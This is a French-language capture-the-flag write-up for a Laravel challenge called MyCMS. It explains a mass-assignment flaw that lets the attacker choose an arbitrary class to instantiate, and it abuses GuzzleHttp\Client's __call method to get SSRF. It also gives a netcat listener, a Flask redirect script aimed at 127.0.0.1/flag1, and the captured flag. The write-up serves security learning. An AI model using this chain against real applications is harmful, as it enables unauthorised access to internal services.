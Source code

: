 # MyCMS (1/1)

## Solve

Dans ce challenge, on récupère le code source d'une lourde application dévelopée à l'aide du framework Laravel.
On remarque que cette application permet de créer des formulaires et de les voir/expoter en PDF.
Je ne rentrerais pas dans le détail de comment celle-ci fonctionne, juste dans l'exploitation.

Si l'on observe le fichier `src/app/Models/Form.php` (qui est le fichier qui représente la base de données pour PHP), on remarque qu'aucun champ n'est spécifié comme `protected`.
Dans le fichier `src/app/Http/Controllers/FormController.php`, dans la fonction `process`, au moment de la création le code suivant est exécuté :

```php
<?php
[...]
$current_user = User::select("id")->where("email", $request->session()->get('email'))->first();
$to_insert = array_merge(request()->except('_token'), ["user_id" => $current_user["id"]]);
Form::create($to_insert);
echo '{"ok":"Le formulaire a bien été créé !"}';
```

Ici, l'application récupère tous les paramètres POST (excepté `_token`) pour insérer en base de données. Bien que le paramètre `renderer` ne soit pas spécifié dans le frontend, on peut donc le spécifié dans la requête POST pour qu'il soit pris en compte lors de l'insertion. 

Ce paramètre va avoir son importance dans la suite du challenge, en effet, le champ `renderer` de la table `forms` est utilisé (de base) par l'application, pour render le form graphiquement à l'utilisateur, et est défini par défaut à `App\FormParser`, regardons le fichier `src/app/Http/Controllers/FormController.php` :

```php
<?php
[...]
$form_user = User::select('email')->where('id',$form["user_id"])->first();
if($form_user["email"] !== $request->session()->get('email'))
{
    return view('form', ['error' => 'Ce formulaire ne vous appartient pas.']);
    exit;
}
else
{
    try{
        $renderer = new $form["renderer"]($form['name'], $form['nb_fields'], $form["content"]);
    } catch(\Throwable $e) {
        $renderer = new $form["renderer"]();
        $renderer->handleError($form['name']);
        return view('form', ['error' => $renderer->error]);
    }
    [...]
}
```

Avec la vulnérabilité présentée précédemment, on a donc la capacité d'instancié n'importe quelle classe du projet avec un constructeur prenant 0,1,2 ou 3 paramètres (PHP n'étant pas sensible au nombre de paramètres à passer dans le constructeur si cela rempli tout ceux required).

Si l'on regarde la liste des classes disponibles dans le dossier `vendor/` (qui correspond aux librairies tierces), une semble particulièrement intéressant: `GuzzleHttp\Client`, en effet, pour cette première étape, on remarque que la route `/flag1` dans le fichier `src/app/Http/Controllers/AdminController.php` ne peut être appelée que depuis localhost, et qu'il nous faut donc une SSRF.

Dans le code qui instancie une classe ci-dessus, on remarque aussi l'appel à la fonction `handleError`, sur l'object précédemment créé, avec comme paramètre le nom du formulaire.

En PHP, si l'on appel une fonction qui n'existe pas sur un objet, celui-ci va tenter d'appeler la méthode `__call` de cet objet si elle est définie, et, dans la classe `GuzzleHttp\Client`, on remarque la présence d'une méthode `__call`:

```php
<?php
[...]
public function __call($method, $args)
{
    if (\count($args) < 1) {
        throw new InvalidArgumentException('Magic request methods require a URI and optional options array');
    }

    $uri = $args[0];
    $opts = $args[1] ?? [];

    return \substr($method, -5) === 'Async'
        ? $this->requestAsync(\substr($method, 0, -5), $uri, $opts)
        : $this->request($method, $uri, $opts);
}
```

Dans cette fonction `__call`, `$method` correspond au nom de la méthode qui a été tenté d'être appelée sur l'objet, dans notre cas, `handleError`, et `$uri` correspond au nom du formulaire.
On peut donc faire une SSRF en mettant dans le renderer `GuzzleHttp\Client`, et dans le nom du formulaire l'URL de l'attaquant.

Lorsqu'on fait cela et qu'on tente de render le formulaire, on recoit la requete suivante :

```bash
$ nc -lnvp 4444
Connection from 172.16.0.3:40056
HANDLEERROR / HTTP/1.1
Host: localhost:4444
User-Agent: GuzzleHttp/7
```

Ici il reste un dernier soucis à résoudre, en effet, laravel va rejeter la requête car le VERB HTTP est `HANDLEERROR`, il faut donc faire un script flask sur lequel on enverra la requete guzzle, pour le redirigé vers `http://127.0.0.1/flag1` :

```py
from flask import Flask, redirect

app = Flask(__name__)

@app.route('/', methods=["HANDLEERROR"])
def index():
    return redirect('http://127.0.0.1/flag1')

app.run(host='0.0.0.0', port=4444)
```

On réactualise la page principale du challenge, et on récupère le premier flag.

## Flag

BZHCTF{ssrf_thr0ugh_php_1nst4nc14t10n}